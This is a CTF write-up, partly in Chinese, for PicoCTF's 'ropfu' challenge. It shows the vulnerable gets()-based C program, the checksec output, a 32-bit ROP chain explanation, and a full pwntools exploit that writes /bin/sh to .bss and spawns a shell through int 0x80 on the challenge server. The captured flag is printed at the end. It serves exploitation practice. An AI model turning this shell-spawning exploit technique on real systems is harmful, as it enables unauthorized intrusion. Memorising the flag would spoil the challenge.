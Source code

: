 ```yaml
---
title: PicoCTF - ropfu
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - ropfu
<!-- more -->

## Background
ROP Chain
x86 Calling Convention:
[Linux System Call Table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit)

## Source code
:::spoiler Source Code
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```
:::

## Recon
```bash!
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=232215a502491a549a155b1a790de97f0c433482, for GNU/Linux 3.2.0, not stripped
$ checksec vuln
[*] '/mnt/d/NTU/CTF/PicoCTF/PWN/ropfu/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
這一題很明顯要開個shell，我以為會像[^pico_pwn_guessing_game][^0x12_rop++]這兩題一樣，事實上概念完全一樣，但換到x86的32bits版本就不知道為啥一直沒有成功，後來有想到是忽略了calling convention的問題，和x86-64的版本不一樣，另外指令的選擇上也不太一樣，像64bits的system call會用syscall，但x86會用int 0x80處理[^syscall_in_x86]，另外寫入`/bin/sh\x00`的方式也和之前的不一樣，之前是call __libc_read function之前把暫存器的部分擺好，就直接跳到__libc_read的地方去，但在這邊是沒辦法成功的，看了其他人的wp[^ropfu_wp]，大部分的做法都是直接用rop把值寫到對應的section中，詳細如下:
```assembly
pop edx -> bss address
pop eax -> 0x6e69622f -> /bin
mov DWORD PTR [edx] eax
pop edx -> bss address
pop eax -> 0x0068732f -> /sh\x00
mov DWORD PTR [edx] eax
```
寫完`/bin/sh\x00`就直接call execve的syscall開shell

## Exploit - ROP Chain
```python!
from pwn import *

# r = process('./vuln')
r= remote('saturn.picoctf.net', 54107)
context.arch = 'amd64'

r.recvline()

pop_eax_ret = 0x80b073a
pop_edx_ebx_ret = 0x80583b9
bss_addr = 0x080e5050
mov_dword_ptr_edx_eax_ret = 0x80590f2
pop_ecx_ret = 0x8049e29
int_0x80 = 0x0807163f

'''############
Read /bin/sh\x00
############'''
# raw_input()
r.sendline(b'a' * 0x1c + 
           p32(pop_edx_ebx_ret) + p32(bss_addr) + p32(0) + 
           p32(pop_eax_ret) + p32(0x6e69622f) +
           p32(mov_dword_ptr_edx_eax_ret) + 
           p32(pop_edx_ebx_ret) + p32(bss_addr + 4) + p32(0) + 
           p32(pop_eax_ret) + p32(0x0068732f) +
           p32(mov_dword_ptr_edx_eax_ret) + 

           p32(pop_eax_ret) + p32(0xb) + 
           p32(pop_edx_ebx_ret) + p32(0) + p32(bss_addr) + 
           p32(pop_ecx_ret) + p32(0) + 
           p32(int_0x80)
)

r.interactive()
```

Flag: `picoCTF{5n47ch_7h3_5h311_1b5a4b40}`

## Reference
[^ropfu_wp]:[ PicoCTF 2022: Beginner's Compilation ](https://enscribe.dev/ctfs/pico22/beginners-compilation/#ropfu)
[^pico_pwn_guessing_game]:[PicoCTF - Guessing Game 1](https://hackmd.io/@SBK6401/SkxoLuwoh)
[^0x12_rop++]:[Simple PWN - 0x12(Lab - rop++)](https://hackmd.io/@SBK6401/rysBjQfjs)
[^syscall_in_x86]:[ 在 Linux 下寫組語, 透過 int 0x80 使用 system call ](http://guguclock.blogspot.com/2009/01/linux-int-0x80-system-call.html)